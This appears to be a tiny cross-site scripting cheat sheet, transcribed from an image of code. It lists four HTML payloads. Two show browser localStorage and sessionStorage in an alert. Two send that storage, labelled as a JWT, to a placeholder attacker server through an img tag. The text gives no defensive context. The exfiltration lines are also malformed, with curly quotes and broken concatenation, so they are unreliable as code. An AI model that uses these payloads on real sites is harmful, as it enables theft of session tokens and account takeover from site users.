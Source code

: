 # localStorage in alert:
```html
<script>alert(JSON.stringify(localStorage))</script>
```
# sessionStorage in alert:
```html
<script>alert(JSON.stringify(sessionStorage))</script>
```
# localStorage stealing:
```html
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>
```
# sessionStorage stealing:
```html
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(sessionStorage);’--!>
```
